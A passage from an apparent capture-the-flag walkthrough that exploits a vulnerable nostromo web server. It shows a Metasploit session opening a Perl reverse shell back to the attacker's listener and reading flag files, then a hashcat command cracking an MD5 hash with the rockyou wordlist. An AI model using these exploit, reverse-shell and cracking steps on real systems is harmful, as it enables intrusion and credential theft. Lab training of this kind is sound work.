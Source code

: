 Exploit and gain shell to find flags.
{% capture code %}{% raw %}msf6 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on <vpn-ip>:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (<vpn-ip>:4444 -> <target-ip>:49596) at 2020-12-24 20:11:05 +0530

shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary(bash) on target machine
[*] Found bash at /bin/bash

pwd
/bin

_nostromo@ubuntu:/bin$ cd /var/nostromo/htdocs
cd /var/nostromo/htdocs

_nostromo@ubuntu:/var/nostromo/htdocs$ ls
ls
index.html  nostromo.gif  <flag-1>

_nostromo@ubuntu:/var/nostromo/htdocs$ ls <flag-1>
ls <flag-1>
nice

_nostromo@ubuntu:/var/nostromo/htdocs$ cat <flag-1>/nice
cat <flag-1>/nice
<flag-2>

Abort session 1? [y/N]  y

[*] <target-ip> - Command shell session 1 closed.  Reason: User exit{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 13 - Hash Cracking - hashcat

Use these links as references.
- [Build Hashcat](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-hashcat){:target="_blank"}
- [Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes){:target="_blank"}


The two tasks mentioned can be done either via hashcat command or online resouces, like [this](https://www.dcode.fr/hash-function){:target="_blank"} or [this](https://crackstation.net/){:target="_blank"}.
If getting `Segmentation Fault` while using hashcat, either use the [link](https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#i_may_have_the_wrong_driver_installed_what_should_i_do){:target="_blank"} to setup proper drivers, or use THM attackbox, or use online hash cracking to get the flag.

Use the following command to decrypt MD5 hash.
{% capture code %}{% raw %}hashcat -m0 -a0 -O --force "56ab24c15b72a457069c5ea42fcfc640" /usr/share/wordlists/rockyou.txt{% endraw %}{% endcapture %} {% include code.html code=code %}
The cracked password will be similar to,
{% capture code %}{% raw %}Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 4 secs

56ab24c15b72a457069c5ea42fcfc640:<flag>
